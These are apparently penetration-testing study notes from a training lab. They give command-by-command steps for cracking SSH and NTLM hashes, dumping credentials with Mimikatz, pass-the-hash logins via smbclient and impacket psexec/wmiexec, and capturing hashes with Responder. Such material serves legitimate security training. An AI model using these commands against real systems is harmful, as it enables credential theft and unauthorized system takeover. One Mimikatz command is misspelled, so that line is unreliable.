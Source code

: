 ```bash
hashcat -h | grep -i "ssh"
```
append a rule to john
```bash
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```
Run john
```bash
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```
### Cracking NTLM 
 We can only extract passwords if we are running Mimikatz as Administrator (or higher) and have the `SeDebugPrivilege` access right enabled.
The token elevation function requires the `SeImpersonatePrivilege` access right to work, but all local administrators have it by default.
 **Check which users exist locally on the system**:
```powershell
Get-LocalUser
```
Then open `mimikatz.exe` by administrator, we can use (with `SeDebugPrivilege` enabled)
```
serkurlsa::logonpasswords
```
or
```powershell
privilege::debug
token::elevate
lsadump::sam
```
Then we can put NTLM hash to hashcat to bruteforce.
```powershell
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::cache" "lsadump::sam" "sekurlsa::ekeys" "lsadump::lsa /inject" "exit"
```
### Cracking MsCacheV2
Crackmapexec with parameter `--lsa`
mimikatz:
```bash
lsadump::cache
```
To crack: Format to `$DCC2$10240#username#hash`(lowercase and no domain)-> run hashcat, mode 2100 .
## Pass-the-Hash
For SMB enumeration and management, we can use `smbclient` or `CrackMapExec` For command execution, we can use the scripts from the` impacket library` like `psexec.py` and `wmiexec.py`
```bash
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```
Use `impacket-psexec` (hash format is `LMHash:NTHash` ):
```bash
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.164.212
```
Due to the nature of `psexec.py`, we'll always receive a shell as SYSTEM
Use `impacket-psexec`:
```bash
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```
### Cracking Net-NTLMv2
Force an authentication -> Use responder as a SMB server 
In kali:
```bash
sudo responder -I tun0
```